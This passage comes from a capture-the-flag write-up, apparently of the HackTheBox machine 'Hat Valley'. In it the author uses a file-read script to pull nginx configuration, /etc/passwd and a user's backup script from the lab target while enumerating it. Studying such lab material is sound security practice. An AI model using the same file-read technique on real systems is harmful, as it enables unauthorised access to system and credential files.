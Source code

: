     }
    

Same with the main site, forwarding to 8080 as I guessed above:

    
    
    oxdf@hacky$ python read_file.py /etc/nginx/sites-enabled/hat-valley.htb.conf | grep -v "#" | grep .
    server {
        listen 80;
        server_name hat-valley.htb;
        root /var/www/hat-valley.htb;
        location / {
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_pass http://127.0.0.1:8080;
            proxy_http_version 1.1;
            proxy_set_header Upgrade $http_upgrade;
            proxy_set_header Connection "upgrade";
        }
    }
    

I can spend some time looking around in the web files, but won’t find anything
useful.

#### Users

Without finding much there, I’ll move to users who have a shell on the box:

    
    
    oxdf@hacky$ python read_file.py /etc/passwd | grep "sh$"
    root:x:0:0:root:/root:/bin/bash
    bean:x:1001:1001:,,,:/home/bean:/bin/bash
    christine:x:1002:1002:,,,:/home/christine:/bin/bash
    _laurel:x:999:999::/var/log/laurel:/bin/sh
    

I’m not able to read anything useful out of `/home/[either user]/.ssh`.

`/home/bean/.bashrc` has an interesting alias defined:

    
    
    alias backup_home='/bin/bash /home/bean/Documents/backup_home.sh'
    

I’ll read that script:

    
    
    #!/bin/bash
    mkdir /home/bean/Documents/backup_tmp
    cd /home/bean
    tar --exclude='.npm' --exclude='.cache' --exclude='.vscode' -czvf /home/bean/Documents/backup_tmp/bean_backup.tar.gz .
    date > /home/bean/Documents/backup_tmp/time.txt
    cd /home/bean/Documents/backup_tmp
    tar -czvf /home/bean/Documents/backup/bean_backup_final.tar.gz .
    rm -r /home/bean/Documents/backup_tmp
    